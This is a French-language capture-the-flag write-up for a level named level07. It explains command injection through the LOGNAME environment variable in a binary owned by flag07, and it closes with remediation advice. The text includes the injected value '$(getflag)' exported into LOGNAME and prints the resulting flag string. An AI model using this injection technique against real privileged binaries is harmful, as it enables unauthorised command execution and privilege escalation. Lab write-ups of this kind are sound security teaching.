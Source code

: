 # Rapport de Vulnérabilité : Injection de commande via la variable d’environnement `LOGNAME`

## Description

Dans ce niveau, un binaire appartenant à `flag07` affiche le contenu de la variable d’environnement `LOGNAME` sans vérification. En manipulant cette variable pour inclure une **commande shell**, il est possible de forcer le programme à exécuter une commande système, comme `getflag`, et d’obtenir ainsi le flag.

## Comment Exploiter la Faille

### Étape 1 : Observation du comportement du binaire

Exécution simple :

```bash
./level07
```

**Résultat :**

```
level07
```

Cela indique que le programme utilise probablement la variable `LOGNAME`.

### Étape 2 : Modifier la variable d’environnement `LOGNAME`

Définir manuellement la variable :

```bash
export LOGNAME=ouioui
./level07
```

**Résultat :**

```
ouioui
```

Cela confirme que le programme affiche directement la valeur de `LOGNAME`.

### Étape 3 : Injecter une commande dans la variable

On remplace la valeur de `LOGNAME` par une commande shell :

```bash
export LOGNAME='$(getflag)'
./level07
```

**Résultat :**

```
fiumuikeil55xe9cu4dood66h
```

La commande `getflag` a bien été exécutée.

### Étape 4 : Confirmation via reverse engineering

Avec `objdump`, on vérifie que le binaire appelle `getenv`, ce qui confirme qu’il récupère la variable d’environnement `LOGNAME` :

```bash
objdump -d -M intel level07
```

Extrait :

```
call   8048400 <getenv@plt>
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Ne jamais exécuter de chaînes provenant d’une variable d’environnement sans les filtrer**.
* **Utiliser des appels sûrs** : Ne pas passer de variables shell dans des fonctions comme `system()` ou via des backticks.
* **Désactiver les expansions de commandes** : Si une variable est destinée à être affichée, la traiter comme une simple chaîne.

## Conclusion

Ce niveau démontre les risques liés à l’utilisation non sécurisée des variables d’environnement. En permettant à l’utilisateur de manipuler `LOGNAME`, le binaire devient vulnérable à une **injection de commande**, pouvant être exploitée pour obtenir des privilèges ou des informations sensibles.

---